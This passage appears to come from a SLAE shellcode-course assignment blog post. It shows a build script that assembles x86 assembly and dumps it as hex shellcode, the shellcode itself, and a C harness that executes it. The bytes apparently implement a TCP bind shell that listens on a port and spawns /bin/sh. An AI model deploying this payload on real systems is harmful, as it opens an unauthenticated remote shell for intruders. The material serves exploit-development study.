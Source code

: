 I also used [libemu](http://libemu.carnivore.it/) and Dot to produce a graph of the execution flow of the shellcode:

[![graph_assign1]({{ site.baseurl }}/images/2014/04/graph_assign1-433x1024.png)]({{ site.baseurl }}/images/2014/04/graph_assign1.png)

After that I used the following script to assemble, link and get the shellcode in hex format.

	#!/bin/bash

	#Author:	Paolo Stivanin <https://github.com/paolostivanin>
	#SLAE ID:	526

	if [ -z "$1" ];then
		echo "Usage: $0 filename"
		exit -1
	fi

	FILE_NO_EXT="${1%.*}"

	echo "[+] Assembling with NASM..."
	nasm -f elf32 -o "${FILE_NO_EXT}.o" "$1"

	echo "[+] Linking..."
	if [ $(uname -m) == "x86_64" ]; then
		ld  -m elf_i386 -o ${FILE_NO_EXT} ${FILE_NO_EXT}.o
	else
		ld -o ${FILE_NO_EXT} ${FILE_NO_EXT}.o
	fi

	echo "[+] Shellcode:"
	for i in $(objdump -d ${FILE_NO_EXT} |grep "^ " |cut -f2); do echo -n '\x'$i; done; echo

The output of the script is:

	"\x31\xd2\x31\xdb\x6a\x66\x58\x43\x52\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x96\xb0\x66\x43\x52\x66\x68\x1d\x4c\x66\x53\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\xb0\x66\x43\x43\x6a\x01\x56\x89\xe1\xcd\x80\xb0\x66\x43\x52\x52\x56\x89\xe1\xcd\x80\x93\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80"

Before executing the shellcode the above result must be put inside the following C file.
  
	/* Template for running shellcode
	* Author: Paolo Stivanin <https://github.com/paolostivanin>
	* SLAE Student ID: 526
	*/

	#include <stdio.h>
	#include <string.h>

	unsigned char shellcode[] = \
	"\x31\xd2\x31\xdb\x6a\x66\x58\x43\x52\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x96\xb0\x66\x43\x52\x66\x68\x1d\x4c\x66\x53\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\xb0\x66\x43\x43\x6a\x01\x56\x89\xe1\xcd\x80\xb0\x66\x43\x52\x52\x56\x89\xe1\xcd\x80\x93\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80";

	int main(void){
		printf("%zu\n", strlen(shellcode));
		int (*ret)() = (int(*)())shellcode;
		ret();
		return 0;
	}
